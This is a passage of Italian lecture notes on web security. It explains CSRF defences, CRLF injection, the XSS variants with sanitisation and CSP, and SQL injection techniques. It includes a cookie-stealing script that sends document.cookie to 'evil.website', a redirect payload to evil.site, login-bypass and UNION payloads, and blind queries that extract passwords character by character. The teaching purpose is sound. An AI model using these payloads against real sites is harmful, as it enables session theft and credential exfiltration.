	\begin{itemize}
		\item Il cookie non viene inviato perché la richiesta proviene da una terza parte.
		\item Il cookie non viene inviato perché la pagina da cui proviene il link che abbiamo cliccato è di una terza
		parte.
	\end{itemize}
	
	\item \textbf{Lax}:
	\begin{itemize}
		\item Il cookie non viene inviato perché la richiesta proviene da una terza parte.
		\item Il cookie viene inviato solo se il link che abbiamo cliccato conduce ad un’azione GET o HEAD.
	\end{itemize}
	
	\item \textbf{None}:
	\begin{itemize}
		\item Il cookie viene inviato perché non ci sono restrizioni (in entrambi i casi).
	\end{itemize}
\end{itemize}

Essendo GET e HEAD metodi safe, è difficile sfruttarli per attacchi CSRF, essendo solamente usabili nel caso in cui l'utente acceda tramite link di un sito ad un altro sito.

Un browser dovrebbe implementare di default \verb|Lax|, ma causerrebbe perdita di usabilità, in quanto approdando da un sitoA.com \textbf{non malevolo} su un sitoB.com, l'utente potrebbe essere costretto ad autenticarsi nuovamente.

Inoltre un \textbf{vecchio browser} potrebbe ignorare l'attributo SameSite presente nel sito web, esponendolo nuovamente ad attacchi CSRF. Sono quindi necessarie ulteriori difese sul backend del nostro sito web per evitare questo problema.

\subsubsection{CSRF Token}
CSRF Token non è altro che una \textbf{nonce} (stringa senza significato), usata per rendere ogni richiesta \textbf{stateful} verso il nostro sito web. Ogni form dovrà essere modificato per includere
anche tale token, che viene generato \textbf{randomicamente} quando viene caricata la pagina contenente il form, e tutti i token devono essere legati alla sessione dell’utente.\\ Tutte le proprietà del token di sessione valgono per il CSRF Token, che dev'essere anche \textbf{monouso}.

Con questo token la richiesta precedente diventa:\\
\verb|https://sitoB.com/HomeBanking/transferMoney?dest=Alice&ammount=100|\\ \verb|&csrftoken=ab379ef23abcd083829bacd32f|

Eve, non conoscendo il CSRF token, non può inserire tale richiesta sul suo sito malevolo.

Tuttavia questa soluzione \textbf{necessita} di un browser che supporti SOP. Senza SOP, Eve col suo sito malevolo potrebbe fare la richiesta attraverso il browser della vittima (usando ad esempio \verb|iframe|) ed estrapolare da lì il token CSRF ed usarlo nella sua richiesta.

Quindi \textbf{non è possibile difendere un vecchio browser da attacchi CSRF}, in quanto sia SameSite che CSRF (con SOP) devono essere garantite dal browser.

\subsection{CRLF Injection}
Abbiamo visto che il protocollo HTTP usa, tramite URL encoding, i caratteri \textbf{Carriage Return} e \textbf{Line Feed} (CRLN o \verb|\r\n|).\\
Se a causa di una vulnerabilità, l'attaccante può iniettare uno o più CRLF, potrebbe acquisire un certo livello di controllo sui vari elementi della pagina o sul flusso delle richieste tra web server e browser della vittima.

Questa vulnerabilità si traduce in due gravi conseguenze:
\begin{itemize}
	\item HTTP Header Injection
	\item HTTP Response Splitting
\end{itemize}

\newpage
\subsubsection{HTTP Header Injection}
Supponiamo che un social network sia vulnerabile a CRLF Injection, e che ci sia una pagina che permette all’utente di scegliere il proprio colore preferito. Tale colore verrà salvato in un cookie e verrà usato come colore principale per il tema di tutte le pagine del sito. L’attaccante invia alla vittima il seguente link:
$$
\verb|https://social.network/path?colorePreferito=blu%0d%0aLocation:evil.site|
$$

Quando la vittima clicca sul link, il sito social.network estrapola il parametro GET “colorePreferito” e genera una risposta affinché il browser salvi tale valore in un cookie, reindirizzando poi l’utente alla homepage. 

\begin{verbatim}
HTTP/2.0 302 Found
…
Set-Cookie: colore= blu
Location:evil.site
...
\end{verbatim}

Tuttavia invece di venire reindirizzato alla homepage, l’utente viene reindirizzato su \verb|evil.site|. Inoltre l’header Location viene ignorato se lo status code è diverso da 3xx o da 201.

\subsubsection{HTTP Response Splitting}
Non è sempre possibile iniettare più di un CRLF, in quanto dipende dalla vulnerabilità trovata, dai proxy usati da chi gestisce il sito web vulnerabile, della sanitizzazione implementata ed etc.\\
Se tuttavia è possibile iniettare molteplici CRLF, si può ottenere \textbf{HTTP Response Splitting}. 

Supponendo di avere la stessa vulnerabilità, modifichiamo l'URL in questo:\\
\verb|https://social.network/path?colorePreferito=blu%0d%0a%0d%0a<html><body>Contenuto|\\ \verb|Malevolo<divstyle=”display:none;”>|

La vittima clicca sul link, e la risposta generata dal web server sarà:

\begin{verbatim}
HTTP/2.0 200 OK
…
Set-Cookie: colore=blu
<html><body>Contenuto Malevolo<div style=”display:none;”>
\end{verbatim}

A causa dei due CRLF dopo l’header Set-Cookie, il browser interpreta concluso lo spazio degli header, e \textbf{inizia a renderizzare quello che crede sia il contenuto della pagina web}, ovvero il payload malevolo
introdotto dall’attaccante.\\ Così l'attaccante ha pieno controllo di ciò che viene mostrato nella pagina, e può anche eseguire degli script per inviare i dettagli della sessione della vittima verso un server malevolo.

Nell'URL esempio, l’attaccante apre un tag \verb|div| che però non viene chiuso: questo tag \verb|div| racchiuderà tutti gli elementi della pagina reale e li renderà invisibili grazie allo stile \verb|display:none;|.\\ In questo modo, l’attaccante sostituisce il proprio contenuto malevolo a quello della pagina legittima. 

\subsubsection{Soluzione al CRLF Injection}
Supponiamo che qualsiasi input fornito dall'utente sia considerato come non sicuro. Inoltre, essendo che l’utente ha la possibilità di interagire col DOM tramite il browser, anche eventuali parametri preimpostati che possono essere cambiati attraverso il DOM (o mediante manipolazione delle richieste o dei cookies), e quindi devono essere considerati non sicuri.

Tutto quello che l'utente inserisce dev'essere opportunamente \textbf{sanitizzato}, tramite la rimozione o la ricodifica dei caratteri speciali che potrebbero fare interpretare tale input come codice. Ad esempio, su PHP, tramite funzioni come \verb|filter_var|, \verb|htmlentities| o \verb|htmlspecialchars|.

\newpage

\subsection{Cross Site Scripting - XSS}
Per Cross Site Scripting (XSS) si intende una \textbf{iniezione di codice Javascript non desiderato} all’interno di una pagina web. Se
l’attaccante riesce ad eseguire il proprio codice all’interno della pagina web di una vittima, può rubare i cookie di sessione,
accedere al contenuto della pagina e effettuare azioni per conto della vittima. 

Gli attacchi XSS vengono classificati in base alla loro \textbf{persistenza} sulla pagina web attaccata.
\begin{itemize}
	\item \textbf{Reflected XSS}: Non persistente.
	\item \textbf{DOM-Based XSS}: Non persistente.
	\item \textbf{Stored XSS}: Persistente.
	\item \textbf{mXSS}: Può essere sia persistente che non.
	\item \textbf{Self-XSS}: Non persistente.
\end{itemize}

\subsubsection{Reflected XSS (Non Persistente)}
Nel \textbf{Reflected XSS} il payload inviato dall'attaccante viene \textbf{riflesso} dal server. Questo succede quando l'input usato viene \textbf{riutilizzato} all'interno della pagina, come in un messaggio d'errore. Un esempio di codice PHP vulnerabile è questo:
\begin{verbatim}
<? $query = $_GET["q"];
$results = googleSearch($query);
if (count($results) == 0) {
	?>
	<p>La ricerca di <?= $query ?> non ha prodotto risultati in nessun documento.</p>
	<? } ?>
\end{verbatim}

Tale codice non presenta alcuna \textbf{sanitizzazione} ed è quindi possibile iniettare un tag \verb|<script>|, che introduce codice Javascript nella sintassi HTML. Quindi il webserver servirà all'utente una pagina \textbf{HTML} controllata dall'attaccante.

Un esempio di exploit è inserire un \verb|alert("Payload Eseguito!")| dentro lo \textbf{script} in JS. All'apertura della pagina, spunterà il pop up causato dall'alert, che conferma che siamo riusciti a forzare l'esecuzione di codice JS in origine \textbf{non presente} sulla pagina, iniettandolo attraverso il metodo GET vulnerabile "query".

Essendo che un \verb|alert()| spesso \textbf{basta per scoprire una XSS}, un ethical hacker non procede a fare altro. Un vero attaccante invece potrebbe ad esempio iniettare script che inviano il ticket di sessione della vittima ad un server malevolo.

\textbf{Esempio Vulnerabilità}:

Supponiamo ad esempio, che una vittima si colleghi ad X ed un attaccante invia alla vittima:\\
\verb|ttps://twitter.com/search?src=typed_query&q=<script>payload|
\verb|malevolo</script>| 

La vittima riconosce l'URL di Twitter come affidabile e lo clicca. Tuttavia, all'apertura della pagina, \textbf{si attiva anche lo script malevolo} che ruba, citando l'esempio precedente, il ticket di sessione:
\begin{verbatim}
var xhttp = new XMLHttpRequest();
xhttp.open("GET", “https://evil.website?data=” + document.cookie, true);
xhttp.send();
\end{verbatim}

\subsubsection{DOM XSS (Type-o XSS) (Non persistente)}
Nel \textbf{DOM XSS}, il payload non viene riflesso direttamente, in quanto il server fornisce all'utente una \textbf{versione innocua} della pagina HTML, tuttavia vulnerabile a XSS.

Infatti, durante l'exploitation, in base ai parametri passati all’interno dell’URL, la pagina viene modificata \textbf{all’interno del browser dell’utente} mediante manipolazione del DOM. Questa vulnerabilità è quindi \textbf{invisibile} dal punto di vista del server, manifestandosi solo all'interno del browser.
\newpage

Supponiamo che \textbf{social.network} contenga una pagina web per la visualizzazione degli errori che permetta di specificare un messaggio personalizzato:
\begin{verbatim}
<script>
document.write(document.location.href.substring(document.location.href.indexOf(“message=”)
+8));
</script>
\end{verbatim}

Il codice di cui sopra cerca la posizione del parametro \textbf{“message=”} all’interno dell’URL e ne scrive, \textbf{senza sanitizzarlo}, il contenuto all’interno della pagina quando questa viene caricata, tramite il metodo DOM \verb|document.write()|.

Un uso legittimo potrebbe essere:
\begin{verbatim}
https://social.network/Error#message=Qualcosa+è+andato+storto.+Torna+alla+homepage!
\end{verbatim}

\textbf{Esempio Vulnerabilità}:

A causa dell'assenza di \textbf{sanitizzazione}, tramite un payload XSS attacchiamo la pagina sopracitata:
\begin{verbatim}
	https://social.network/Error#message=<script>alert(“Payload Eseguito!”);</script>
\end{verbatim}

La vittima riceve dall'attaccante un link che ritiene legittimo, guardando un dominio noto, e lo clicca, attivando il payload. 

Il server non ha modo di riscontrare che è in corso un attacco XSS, in quanto \textbf{message} e il suo contenuto non sono mai arrivati al server, essendo introdotti da un’anchor \# e non da una query ?. 

\subsubsection{Stored XSS (Persistente)}
Tipologia di XSS in cui il \textbf{payload malevolo viene salvato in uno store}, come database sul backend o un cookie, per essere poi eseguito in un secondo momento, ovvero quando il contenuto dello store verrà stampato su una pagina web.

L'attaccante sfrutta form di input HTML non sanitizzato e che permettono la scrittura del payload malevolo sullo store.\\
Stored XSS ha diversi punti di \textbf{forza} rispetto alle alre tipologie di XSS:
\begin{itemize}
	\item \textbf{Nessun social-engineering necessario contro la vittima}, in quanto l'attaccante lascia il messaggio con il payload su una chat di gruppo e aspetta che le vittime visualizzino il messaggio.
	
	\item \textbf{La vittima non può proteggersi dall'attacco}, in quanto sta effettuando azioni abituali e non si accorge di un messaggio farsa.
	
	\item \textbf{Grande capacità di diffusione}, in quanto più sono gli utenti che leggono il messaggio, più volte il payload sarà eseguito. L'attaccante non deve mandare alcun link alle singole vittime. 
\end{itemize}

\textbf{Esempio Vulnerabilità}:

\textbf{index.php} - L'attaccante prova ad introdurre il proprio payload XSS nel DB utilizzando questo form vulnerabile.
\begin{verbatim}
<form action=”insertPost.php” method=”POST”>
	<textarea id=”myPost”>Inserisci qui il testo del tuo post, poi 
		clicca su “Invia” per pubblicarlo!</textarea>
	<input type=”submit” value=”Invia” />
</form>
\end{verbatim}

\textbf{insertPost.php} - Il codice PHP che salva il post nel DB è vulnerabile, in quanto non viene effettuata sanitizzazione.
\begin{verbatim}
<? $message = $_POST[‘myPost’];
$myId = getMyUserId();
mysqli_query($db, “INSERT INTO Posts VALUES (‘ ”. $myId . “‘, ‘ “. $message . “ ‘ )” ?>
\end{verbatim}

\textbf{viewFriendPosts.php?userId=782} - Quando un nostro contatto visualizza il post, si attiva il payload XSS perchè non viene
effettuata sanitizzazione neanche in output.
\begin{verbatim}
<? $friendId = $_GET[‘userId’];
$data = mysqli_fetch_object(mysqli_query($db, 
“SELECT Message FROM Posts WHERE AuthorId = ”.$friendId));
echo $data[‘Message’]; ?>
\end{verbatim}

\newpage
\subsubsection{Sanitizzazione degli input}
Per evitare qualsiasi tipo di vulnerabilità XSS è bene \textbf{sanitizzare} gli input passati dall'utente.\\ Le funzioni già usate contro le CRLF Injection vanno bene e le possibili operazioni di sanitizzazione di \textbf{input} e \textbf{output} sono:
\begin{itemize}
	\item \textbf{Escaping}: Consiste nel \textbf{convertire} un carattere speciale nella sua sequenza di escape. In HTML Encoding ad esempio \verb|<| diventa \verb|%lt|;
	
	\item \textbf{Filtering}: Consiste nel \textbf{rimuovere} un carattere speciale. Ad esempio \verb|<script>| diventa \verb|script|;
	
	\item \textbf{Validation}: Consiste nel \textbf{confrontare} la stringa da validare con una \textbf{whitelist} o una \textbf{regex}.
	Ad esempio \verb|very@doge.wow| passa  la validazione contro una regex che controlla gli indirizzi email, mentre \verb|much@validate| no.
\end{itemize} 

Tuttavia andare a ricercare tutti gli input dell’utente e coprirli con un \verb|htmlspecialchars| può essere rischioso, perché è facile dimenticare un escaping su un input riflesso nella pagina.
Per questo esistono due soluzioni più efficienti, i \textbf{template} e i \textbf{filtri XSS}.

\subsubsection{Template}
I \textbf{template} sono \textbf{documenti con l’aspetto della pagina finale}, dove tuttavia i vari parametri sono omessi e sostituiti con \textbf{placeholder}, che saranno a loro volta sostituiti con i valori creati durante la generazione della pagina. 

\textbf{Esempio}:
\begin{verbatim}
<p>La ricerca di {{term}} non ha prodotto risultati in nessun documento.</p>
\end{verbatim}

Il \textbf{template engine} che genera la pagina fa \textbf{automaticamente} le procedure filtering/escaping prima di sostituire i placeholder, così il programmatore deve esclusivamente usare la sintassi del template.\\
Il template include solo l'aspetto grafico, mentre la logica per recuperare il parametro \verb|term| sta in un documento separato.

Un esempio di template engine è Janja per Python. Qui un esempio:\\
\textbf{templates/search.html} - Include l'aspetto della pagina.
\begin{verbatim}
[...]
<p> Risultati per la tua ricerca {{query}}: </p>
{% for r in results %}
	<div><a href=“{{r.link}}”> {{r.pageName}} </a> <br> <p> {{r.description}} </p></div>
{% endfor %}
\end{verbatim}

\textbf{application.py} - Include i dati e la logica per recuperarli.
\begin{verbatim}
from jinjasql import JinjaSql
j = JinjaSql()
[...]
@app.route(‘/search’)
def search():
	data = {“term”: request.args.get(‘term’)}
	template = “SELECT * FROM indexed_content WHERE description LIKE ‘%{{term}}%’”
	query, bind_params = j.prepare_query(template, data)
	results = execute_query(query, bind_params) #da implementare a seconda del DBMS
	return render_template(“search.html”, results=results)
\end{verbatim}

\subsubsection{Filtri XSS}
Si tratta di soluzioni, implementabili sia su back-end che su front-end, che permettono di filtrare gli input forniti dall'utente, oppure l'intero contenuto delle pagine Web, per difendersi da XSS.

\begin{minipage}{0.45\textwidth}
Tra le soluzioni più usate troviamo:
\begin{itemize}
	\item OWASP AntiSamy
	\item SafeHTML
	\item jSoupClean
	\item DOMPurify
\end{itemize}
\end{minipage}
\hfill
\begin{minipage}{0.50\textwidth}
\begin{figure}[H]
	
\includegraphics[width=1\linewidth]{Immagini/Sanitize.png}
\end{figure}
\end{minipage}

\newpage

\textbf{Breve panoramica su OWASP AntiSamy}:

OWASP AntiSamy è una \textbf{libreria} per effettuare una efficiente pulizia di codice HTML proveniente da origini non certificate. Esistono due versioni, una in \verb|Java| e una in \verb|.Net|.\\ Le funzioni principali di queste due versioni sono:
\begin{itemize}
	\item \textbf{Parsing sicuro di HTML}
	\item \textbf{Parsing validato senza rimozioni di CSS}
	\item \textbf{Funzioni di processing avanzate}, incluso il supporto di \textit{direttive}.
\end{itemize}

Alcune direttive delle due versioni si AntiSamy sono:

\begin{table}[H]
\centering
\begin{tabular}{|c|m{7 cm}|c|}
	\hline
	\textbf{Direttiva} & \textbf{Descrizione} & \textbf{Tipo} \\
	\hline
	\textbf{useXHTML} & Quando questa funzionalità è attivata, AntiSamy restituirà il contenuto sanitizzato in formato XHTML invece che HTML. & boolean \\
	\hline
	\textbf{omitXMLDeclaration} & Quando \textbf{useXHTML} è attvata, AntiSamy anteporrà automaticamente l'header XML. Con questa funzione attivata non lo farà. & boolean \\
	\hline
	\textbf{omitDoctypeDeclaration} & Quando questa funzionalità è attivata, AntiSamy non anteporrà il tag \verb|<!DOCTYPE html ...>|. & boolean \\
	\hline
	\textbf{maxInputSize} & Questa direttiva specifica la dimensione massima (in byte) dell'input inserito dall'utente prima della validazione. & integer \\
	\hline
\end{tabular}
\end{table}

Per altre direttive, vedere: \verb|https://github.com/nahsra/antisamy/wiki/AntiSamy-Directives|

\subsubsection{Evadere la Sanitizzazione}
Ci sono casi dove payload semplici non riescono ad attivare un XSS, ma la sanitizzazione implementata non è efficiente (ad esempio usa una blacklist o i parametri non vengono decodificati ricorsivamente).

Per aggirare queste sanitizzazioni inefficaci si possono usare \textbf{cheatsheet}, ovvero documenti con svariati payload XSS, codificati affinché possano evadere sanitizzazione.

Un'altra alternativa è usare \textbf{JSFuck}, ovvero una forma estrema di encoding Javascript nata nel 2010, che prevede la scrittura di codice utilizzando solo sei caratteri: \verb|[]()!+|

Essendo JavaScript non fortemente tipizzato, questa codifica genera codice JS valido e funzionante in tutti i browser. JSFuck risulta utilissimo per evadere blacklist e altri filtri perché estremizza l’offuscamento degli script. L'unica pecca è la rappresentazione in caratteri, ad esempio se \verb|alert(“XSS”);| è solamente 13 caratteri, la sua codifica in JSFuck è di ben \textbf{9725} caratteri.

\subsubsection{Content Security Policy (CSP)}
Si tratta della misura più flessibile per bloccare XSS e altre vulnerabilità, in quanto permette di \textbf{whitelistare} le sorgenti di script, immagini e altre risorse che sono ritenute affidabili, e di bloccare tutte le altre.

Questo comporta quindi anche il blocco di script in-line e degli eventi assegnati agli elementi della pagina mediante attributi.

È possibile attivare CSP tramite l'header \verb|Content-Security-Policy|, esposto dal web server. In questo modo permette di caricare risorse solo dalla stessa origine e da tutti i sottodomini di \verb|mailsite.com|. Sono tuttavia permesse immagini da ogni origine. Esempio:
$$
\verb|Content-Security-Policy: default-src 'self' *.mailsite.com; img-src *|
$$

Oppure è possile attivare CSP con \verb|meta| all'interno del tag \verb|<head>| della pagina, permettendo di caricare risorse solo dalla stessa origine e immagini da qualsiasi dominio, purché si utilizzi il protocollo HTTPS.

\begin{center}
\verb|<meta http-equiv="Content-Security-Policy" content="default-src 'self';|\\
\end{center}
\quad\quad\quad\quad	
\verb|img-src https://*;">|

\newpage

\subsubsection{Mutation-based XSS (mXSS)}
Tipologia di XSS in grado di aggirare filtri XSS e template.
Inizialmente il payload è \textbf{malformato} e quindi non valido semanticamente. Esso viene sanitificato e grazie alle modifiche effettuate diventa \textbf{malevolo}.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.5\linewidth]{Immagini/Sanitize.png}
\end{figure}

Tuttavia queste vulnerabilità \textbf{non sono comuni} ed è più una falla della funzione sanitizzante.\\ Ad esempio nel 2019 \verb|DOMPurify.sanitize(input)| era vulnerabile ad mXSS.

\subsubsection{Self XSS}
\textbf{Self XSS} non è una vera vulnerabilità, ma una forma di \textbf{Social Engineering}, in quanto l'attaccante contatta la vittima e la convince ad aprire la console del browser, incollarci sopra del codice malevolo ed eseguirlo.

Fare questo ovviamente richiede un livello elevato di interazione con la vittima, che potrebbe anche sbagliare qualche passaggio. Inoltre alcuni siti prevengono pure il Self XSS tramite avvertenze mirate.

\newpage

\section{Web Exploitation - Database}
Se dal lato Client abbiamo esplorato le varie vulnerabilità di un sito web o del browser, ora andiamo ad esplorare le \textbf{vulnerabilità} che ci sono quando ci interfaccia con un database.\\
Sapendo che per ricavare informazioni da un DB lo interroghiamo con delle query, possiamo \textbf{iniettare del codice malevolo} all'interno di una di essa per \textbf{estrapolare} e/o \textbf{modificare dati} in un DB. Queste iniezioni di codice si chiamano \textbf{SQL Injection}.

\subsection{SQL Injection - Aggirare il Login}
Supponiamo che il sistema di login di un sito web sia implementato tramite questa query:
\begin{verbatim}
“SELECT* FROM Users WHERE Username=‘ ”.$_POST[‘username’].“ ’ AND Password=‘
”.$POST[password].“ ’ ”
\end{verbatim}

La query seleziona tutte le colonne di \textbf{Users} e dalla colonna \textit{Username} cerca il nome utente inserito e in \textit{Password} se la password inserita è la stessa identica.\\
Se questa query restituisce un record, il login ha avuto successo, altrimenti il login fallisce. 

\subsubsection{Analisi Payload}
L'attaccante vorrà aggirare il login e come \textbf{payload} inserisce \textbf{admin} nel campo \textit{Username} e \textbf{'OR 1=1--} nel campo \textit{Password}. La query diventa quindi:
\begin{verbatim}
SELECT* FROM Users WHERE Username=‘admin’ AND Password=‘’OR 1=1 --’
\end{verbatim}

Analizziamo il payload inserito. Nel campo della password \textbf{'OR 1=1 --}: 
\begin{itemize}
	\item \textbf{'}: chiude il campo Password.
	\item \textbf{OR 1=1}: è una condizione sempre vera.
	\item \textbf{--}: introduce un commento nella sintassi di MySQL, quindi commenta tutto il resto della query inserita dal programmatore. 
\end{itemize}

Il confronto essendo fatto da una stringa vuota e un'espressione sempre vera tramite un OR restituisce sempre vero.\\
Per quanto riguarda il campo \textit{Username}, l'inserimento di \textbf{admin} potrebbe portare a due scenari, in quanto dipende dal livello di priorità assegnata agli operatori logici nel DBMS:
\begin{itemize}
	\item Query interpretata come \verb|(Username = ‘admin’ AND Password = ‘’) OR 1=1|
	\begin{itemize}
		\item Restituisce \textbf{tutta} la tabella \textbf{Users}
		\item Login sul primo utente restituito dalla query, generalmente un account amministratore.
	\end{itemize}
	
	\item Query interpretata come \verb|Username = ‘admin’ AND (Password = ‘’ OR 1=1)|
	\begin{itemize}
		\item Restituisce solo la riga contenente 'admin'
		\item Login su 'admin'.
	\end{itemize}
\end{itemize}

\subsubsection{Payload Alternativo}
Riprendendo il payload di prima, inseriamo il contenuto prima inserito nel campo \textit{Password} in \textit{Username}. Otterremo questo:
\begin{Verbatim}
SELECT* FROM Users WHERE Username=‘’OR 1=1 --’ AND Password=‘asdf’
\end{Verbatim}

La condizione vera sarà in \textit{Username} mentre tutto il resto, essendo commentato, verrà ignorato.\\
Questa query restituisce \textbf{tutta} la tabella \textbf{Users} e verrà loggato il primo utente restituito.

\subsection{Union-Based SQL Injection}
Tramite apposite query vulnerabili è possibile recuperare anche tutti i dati di un DB. Se il risultato di una query venisse \textbf{stampato a schermo}, si potrebbe appendere alla query ulteriori elementi per ottenere informazioni aggiuntive.\\
Questo è tipicamente fatto attraverso l'operatore \textbf{Union}, che permette di unire risultati di due query diverse, a patto che il numero di colonne sia lo stesso e che i tipi combacino.

Inoltre, problema ancora più grande, molto spesso l'attaccante \textbf{non può vedere} il risultato di una query (scenario blackbox).

\subsection{Recuperare il numero di colonne}
Supponiamo di avere la seguente query vulnerabile ad SQL Injection (sconosciuta all'attaccante):
\begin{verbatim}
SELECT ID, Autore, Messaggio, Likes, Dislikes, Timestamp FROM Posts WHERE Autore =
‘.$_POST[“username”].’ AND Likes > 50 
\end{verbatim}

L'attaccante vuole conoscere il \textbf{numero} di colonne presenti nella tabella. Ha due modi:

\subsubsection{Con Order By}
L'operatore Order By ci permette di ordinare righe di una query per una colonna. Il grande vantaggio di questa funzione è che \textbf{non necessitiamo} di conoscere il nome della colonna, ma soltanto la posizione nella tabella.

Riprendendo l'esempio di prima, se l'attaccante inserisse \textbf{'ORDER BY 2--}, il DBMS non restituirebbe errori. All'inserimento invece di \textbf{'ORDER BY 10--} invece terminerebbe la query con un errore.

Tramite una ricerca esponenziale possiamo ricavare il numero preciso di colonne di una tabella. Ad esempio:
\begin{itemize}
	\item \textbf{ORDER BY 2} $\Rightarrow$ Ok, raddoppio il numero di campi.
	\item \textbf{ORDER BY 4} $\Rightarrow$ Ok, raddoppio il numero di campi.
	\item \textbf{ORDER BY 8} $\Rightarrow$ Errore, allora il numero di colonne sarà tra 4 e 8. Continuo dal centro.
	\item \textbf{ORDER BY 6} $\Rightarrow$ Ok, allora il numero di colonne è 6 o 7.
	\item \textbf{ORDER BY 7} $\Rightarrow$ Errore, allora il numero di colonne è 6.
\end{itemize}

\subsubsection{Con NULL}
Il valore NULL è perfettamente valido da selezionare in una query ed è \textbf{usabile per qualsiasi campo}, \textbf{indipendentemente dal tipo} (a patto che bisogna stare attenti che possono esserci colonne che non permettono valori NULL).

Usando l'esempio di prima, si potrebbero creare query con molteplici NULL per individuare così il numero di colonne, come:
\verb|SELECT NULL, 1 , NULL| \\
Andrebbe bene poiché seleziona tre sole colonne su 6. Ovviamente qualcosa come:\\
\verb|SELECR NULL, 1, NULL, NULL, NULL, NULL, NULL, NULL| restituirebbe errore.

\subsection{Recuperare il tipo delle colonne}
Una volta che conosciamo il numero di campi selezionati, dobbiamo individuarne il tipo. Per farlo usiamo 'UNION SELECT val', inserendo valori e vedere come risponde il DBMS.

Non è un processo veloce, in quanto bisogna effettuare dei test un campo per volta (usando NULL sugli altri).
Il DBMS restituirà errore ogni qualvolta che inseriamo un tipo errato in uno dei campi.

Prendendo ancora una volta la query iniziale:
\begin{verbatim}
SELECT ID, Autore, Messaggio, Likes, Dislikes, Timestamp FROM Posts WHERE Autore = '...' 
AND Likes > 50  
\end{verbatim}
e aggiungendo (al posto dei puntini):
\begin{verbatim}
'UNION SELECT 1, 2, ‘ciao’, ‘x’, ‘y’, 5 --'
\end{verbatim}

Otterremo un errore, in quanto \textit{Autore} non può essere un INT ma più probabilmente un VARCHAR, mentre 'x' e 'y' sono stringhe ma \textit{Likes} e \textit{Dislikes} sono probabilmente INT.\\
Invece 5 non può essere una data, che invece sarà un DATETIME.

\newpage
\subsection{Recuperare Nomi delle Tabelle e delle Colonne}
Generalmente i nomi delle tabelle (e delle colonne di ogni tabella) non sono noti, ad eccezione di software \textbf{open-source} o di \textbf{Content Management System (CMS)} come Wordpress.

Se il bersaglio è un applicazione web in modalità black box dove non vengono usati CMS noti, si può sfruttare lo \textbf{schema} del DB. Sono \textbf{read-only} e forniscono \textbf{viste} che contengono informazioni su tabelle, colonne e procedure del database. Ad esempio su MySQL lo schema si chiama \textbf{information\_schema} e comprende diverse tabelle, tra cui:
\begin{itemize}
	\item \textbf{Tables}: Contiene le informazioni sulle tabelle presenti nella base di dati, compresi i nomi contenuti in \textbf{table\_name}.
	
	\item \textbf{Columns}: Contiene le informazioni sulle
	colonne	presenti all'interno del database, compresi i nomi contenuti in \textbf{column\_name}. Per ogni record inoltre viene citata la tabella di riferimento sulla colonna
	\textbf{table\_name}.
\end{itemize}

\subsection{Blind SQL Injection}
Nel caso della Union-Based SQL Injection potevamo sfruttare che l'output venisse stampato su schermo. Tuttavia in molti casi reali questo \textbf{non accade} e quindi questo tipo di SQL Injection non ci serve.

Tuttavia alcuni siti web hanno comportamenti diversi in base al risultato della query. Ad esempio, un form di login potrebbe restituire "Login effettuato" con una query corretta, mentre con una query errata potrebbe restituire "Nome utente o password errati".\\
Questa informazione è l'unica che possiamo sfruttare per vedere se il database di quel sito web è vulnerabile ad SQL Injection.

Questo tipo di SQL Injection si chiamano \textbf{Blind SQL Injection} e per definizione accadono quando un sito o applicazione web è \textbf{vulnerabile ad SQL Injection}, ma le risposte HTTP non contengono il risultato della query SQL o i dettagli di errori del database.

\subsubsection{Operatore LIKE}
Un operatore efficace per ottenere una query corretta è \verb|LIKE|.
Esso viene usato per determinare se una stringa corrisponde ad un determinato pattern. Inoltre è \textbf{case insensitive}, tuttavia può diventare \textbf{case sensitive} se abbinato con \verb|BINARY|.

Elenco delle wildcard usabili con LIKE:
\begin{itemize}
	\item \% corrisponde a qualsiasi stringa composta da zero o più caratteri.
	\item \_ corrisponde ad esattamente un carattere.
	\item \verb|[abcegx]| corrisponde ad un carattere tra quelli elencati.
	\item \verb|[a-g]| corrisponde ad un carattere nell’intervallo specificato 
	\item \verb|[^d-m]| corrisponde a tutti i caratteri che \textbf{non} si trovano nell’intervallo specificato.
\end{itemize}

Esempi:
\begin{itemize}
	\item \verb|‘prova’ LIKE ‘PROVA’ = true|
	\item \verb|‘prova’ LIKE ‘p%’ = true|
	\item \verb|‘prova’ LIKE ‘_p%’ = false|
	\item \verb|‘prova’ LIKE ‘pr_’ = false|
	\item \verb|‘prova’ LIKE ‘%p%’ = true|
	\item \verb|‘prova’ LIKE ‘prova%_’ = false|
	\item \verb|‘prova’ LIKE ‘%prov_’ = true|
	\item \verb|‘prova’ LIKE ‘pr_v_%’ = true|
\end{itemize}

\newpage
\subsubsection{Esempio di attacco}
Supponiamo che nel sito web \verb|mio.sito| che stiamo attaccando ci sia una pagina che recupera un post con un certo ID. Ad esempio:

\begin{center}
\verb|mio.sito/vediPost?id=345|
\end{center}

Questo parametro, se non gestito correttamente, potrebbe rendere il sito vulnerabile a SQL Injection. Supponiamo inoltre che la pagina del sito web restituisce \textbf{un messaggio di errore} se il post non viene trovato, altrimenti restituisce i dettagli del post trovato.

Supponendo inoltre che l'attaccante conosca l’esistenza della
tabella \textbf{Users} con colonne \textit{username} e \textit{password} e che la query implementata sia:
\begin{verbatim}
SELECT* FROM Posts WHERE id = .$_POST[‘inputUtente’]
\end{verbatim}

Potrebbe inserire il seguente payload:
\begin{verbatim}
mio.sito/vediPost?id=345 AND (SELECT* FROM Users WHERE username = ‘admin’ 
AND password LIKE ‘a%’)
\end{verbatim}

Che viene letta dal database come:
\begin{verbatim}
SELECT* FROM Posts WHERE id = 345 AND (SELECT * FROM Users WHERE username = ‘admin’ 
AND password LIKE ‘a%’)
\end{verbatim}

Questa query restituisce una tupla esclusivamente se la password dell'utente inizia per "a". Se accede ai dati del post 345, la password inizia per "a" e può \textbf{continuare ad esfiltrare la password}, altrimenti se ottiene un errore, la password inizia con un'altra lettera.

\subsubsection{Alternativa - Funzione SUBSTRING}
Alternativamente all'operatore LIKE, si può effettuare una Blind SQL Injection tramite la funzione \verb|substring(stringa, inizio, lunghezza)| (in alcuni database è chiamata SUBSTR) che restituisce una sottostringa in base alla stringa e ai paramentri che diamo in input. 

Riprendendo l'esempio precedente con \verb|mio.sito|, un uso di \verb|substring| per esfiltrare una password sarebbe:
\begin{verbatim}
SELECT* FROM Posts WHERE id = 345 AND (SELECT * FROM Users WHERE username = ‘admin’ 
AND substring(password, 1, 1) = ‘a’)
\end{verbatim}

